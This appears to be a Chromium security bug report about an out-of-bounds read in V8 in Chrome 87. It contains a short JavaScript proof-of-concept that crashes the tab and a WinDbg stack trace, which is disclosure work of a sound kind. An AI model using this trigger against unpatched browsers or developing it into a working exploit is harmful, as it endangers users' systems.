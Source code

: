 <b>VULNERABILITY DETAILS</b>
Out of Bounds in V8

<b>VERSION</b>
Chrome Version: [87.0.4280.88] + [stable]
Operating System: win 10

<b>REPRODUCTION CASE</b>

```js
var trigger = (loop = new class{ [1337] = ()=>"p4nda"})=>loop
trigger()[1337]
```

1. open chrome.exe
2. open an DevTools page and then input the javascript code in console tab (I think it also can trigge via a html file).



<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: [tab]
Crash State: 

0:025> g
(2404.1a14): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
chrome!std::__1::__cxx_atomic_load [inlined in chrome!v8::internal::IncrementalStringBuilder::AppendString+0x35]:
00007ffa`8f426875 8b41ff          mov     eax,dword ptr [rcx-1] ds:00007b77`1800009b=????????
0:000> kbL
 # RetAddr           : Args to Child                                                           : Call Site
00 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!std::__1::__cxx_atomic_load
01 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!std::__1::__atomic_base<int,0>::load
02 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!std::__1::atomic_load_explicit
03 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::base::Relaxed_Load
04 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::base::AsAtomicImpl<int>::Relaxed_Load
05 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::TaggedField<v8::internal::MapWord,0>::Relaxed_Load
06 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::HeapObject::map_word
07 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::HeapObject::map
08 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::HeapObject::map+0x10
09 (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::StringShape::StringShape+0x10
0a (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::String::IsFlat+0x10
0b (Inline Function) : --------`-------- --------`-------- --------`-------- --------`-------- : chrome!v8::internal::IncrementalStringBuilder::CanAppendByCopy+0x19
0c 00007ffa`8f233745 : 00000000`00000036 00007ffa`8f2eb923 0000ae64`ada957b1 0000022c`ebd9c75f : chrome!v8::internal::IncrementalStringBuilder::AppendString+0x35
0d 00007ffa`8f2333f7 : 00000000`00000000 0000022c`eb8037f8 0000022c`ebda08d8 00000000`955fd300 : chrome!v8::internal::`anonymous namespace'::NativeCodeFunctionSourceString+0x125
0e 00007ffa`8ef84b5f : 00007b77`000000ff 01007ffa`8ef50316 0000ae64`ada954d1 00000000`00000000 : chrome!v8::internal::JSFunction::ToString+0x1a7
0f 00007ffa`8ef84867 : 0000001a`955fcc60 000000c6`955fcd10 000000c6`955fcf01 00000000`00000000 : chrome!v8::internal::Builtin_Impl_FunctionPrototypeToString+0x8f